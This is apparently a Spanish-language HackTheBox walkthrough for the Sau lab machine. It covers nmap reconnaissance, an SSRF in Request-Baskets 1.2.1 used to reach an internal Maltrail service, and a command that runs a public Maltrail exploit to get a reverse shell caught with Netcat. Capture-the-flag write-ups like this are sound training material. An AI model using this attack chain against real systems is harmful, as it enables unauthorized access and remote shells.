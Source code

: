 # HackTheBox Sau Walkthrough

Este documento proporciona un walkthrough detallado para comprometer la máquina Sau en HackTheBox, destacando las técnicas y herramientas clave empleadas en cada etapa.

## Tabla de Contenidos

- [Introducción](#introducción)
- [Reconocimiento](#reconocimiento)
- [Explotación](#explotación)
  - [Explotación de SSRF en Request-Baskets](#explotación-de-ssrf-en-request-baskets)
  - [Explotando Maltrail](#explotando-maltrail)
- [Post-Explotación](#post-explotación)
- [Conclusión](#conclusión)

## Introducción

El propósito de este walkthrough es documentar el proceso seguido para comprometer la máquina Sau, enfocándose en superar varios desafíos de seguridad para obtener acceso como usuario y, finalmente, acceso total.

## Reconocimiento

El reconocimiento es el primer paso crítico en cualquier prueba de penetración. Utilicé `nmap` para identificar los puertos abiertos y los servicios en ejecución en la máquina objetivo:

nmap -sC -sV -oN nmap_initial <IP de la máquina>

Los resultados revelaron los siguientes puertos abiertos:

- **22/tcp** - SSH
- **80/tcp** - HTTP (No respondía)
- **55555/tcp** - HTTP (Accesible)

![Nmap](/img/Nmap.PNG)

El intento de acceso al servidor HTTP en el puerto 80 no cargó, pero el puerto 55555 reveló una aplicación web llamada **Request-baskets**.

![VentanaPrincipal](/img/Request-baskets.PNG)

## Explotación

### Explotación de SSRF en Request-Baskets

**Request-Baskets** es una herramienta para crear puntos finales temporales para inspeccionar solicitudes HTTP. La versión 1.2.1, que estaba en uso, es vulnerable a SSRF (Server Side Request Forgery). Aproveché esta vulnerabilidad para acceder a servicios internos, en particular, al servicio en el puerto 80.

![SSRF](/img/SSRF.PNG)

### Explotando Maltrail

El servicio interno redirigido resultó ser **Maltrail**, una aplicación web de monitoreo de tráfico malicioso. 

![Maltrail](/img/Maltrail.PNG)

Una búsqueda en Google reveló una vulnerabilidad en la versión específica en uso, permitiéndome ejecutar un reverse shell a través de un exploit disponible públicamente: https://github.com/spookier/Maltrail-v0.53-Exploit

python3 exploit.py [IP de escucha] [Puerto de escucha] [URL objetivo]

Utilicé Netcat para escuchar conexiones entrantes en el puerto especificado, lo que me permitió obtener acceso al sistema como el usuario **puma**.


## Post-Explotación

Dentro del directorio home del usuario **puma**, encontré el archivo `user.txt`, que contenía la flag de usuario, marcando el éxito de la fase de post-explotación.

![Usuario](/img/Usuario.PNG)

## Conclusión

Este documento detalla el proceso seguido para comprometer la máquina Sau en HackTheBox, desde el reconocimiento inicial hasta la post-explotación. Este ejercicio subraya la importancia de la actualización de software y la configuración adecuada de seguridad para prevenir vulnerabilidades.


